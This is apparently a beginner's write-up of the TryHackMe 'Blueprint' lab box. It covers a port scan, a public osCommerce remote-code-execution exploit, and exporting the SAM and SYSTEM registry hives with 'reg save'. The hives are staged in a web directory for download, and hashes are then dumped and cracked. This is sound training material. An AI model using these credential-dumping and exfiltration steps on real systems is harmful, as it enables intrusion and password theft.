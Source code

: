 ## TryHackMe - Blueprint Methodology
> Completed 16th March 2022

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on a general concept of the intrusion kill-chain:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objective

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Python

### Methodology
#### Objectives/Flags
 1. "Lab" user NTML hash decrypted
 2. root.txt
 
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system
```
```
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The filesystem was Windows and exploring user files I happened to come across my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likely going to be in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included printing its contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stumbled upon a page which explained how this data could be exported from its registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website, I had found earlier I had to find a tool that was going to assist me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on reconnaissance and exploitation through finding online resources/code. Once I was in, most of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?

#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documentation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.

